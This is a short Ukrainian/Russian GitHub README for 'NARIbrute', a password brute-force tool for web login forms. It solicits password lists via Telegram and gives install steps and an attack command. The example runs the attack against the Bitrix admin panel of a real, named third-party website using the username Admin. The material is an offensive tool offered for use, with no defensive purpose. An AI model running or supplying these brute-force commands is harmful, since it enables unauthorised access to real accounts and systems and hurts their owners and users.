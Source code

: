 <h1 align="center">Подпишись на мій телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">N∆RIbrute</h3>
Постійно буду обновлювати якщо хочеш допомогти кидай бази паролів у мій телеграм у фарматі .txt @samurai_gh<br>
Можна сказати що він "універсальний" якщо форма відправки така <br>
post login[username]<br>
post login[password]<br>
Ті хто шарать зрозуміють<br>
<h3 align="center">Установка:</h3><br>
Клонуем git <br>
 
```shell
git clone https://github.com/Samuraianonweb/NARIbrute
```
<br>
 
```shell
cd NARIbrute
```
<br>

Установка бази паролів (рандом по 500 паролів) <br>
```
python2 baza_pass.py
```
Якщо потрібно скачати базу за номером. Всі бази:https://github.com/Samuraianonweb/password<br>
Id бази це перші цифри (id)_500.txt<br>

```shell
python2 id_baza.py
```
<h3 align="center">Команда атаки:</h3>
 
```shell
python2 brute -url -login pass.txt 
```
-url = Посилання на панель/вхід<br>
-login = Логін (якщо відомо , якщо ні вставляємо Admin/admin)<br>
Приклади готової команди <br>
```shell
python2 brute https://id.sechenov.ru/bitrix/admin Admin pass.txt
```
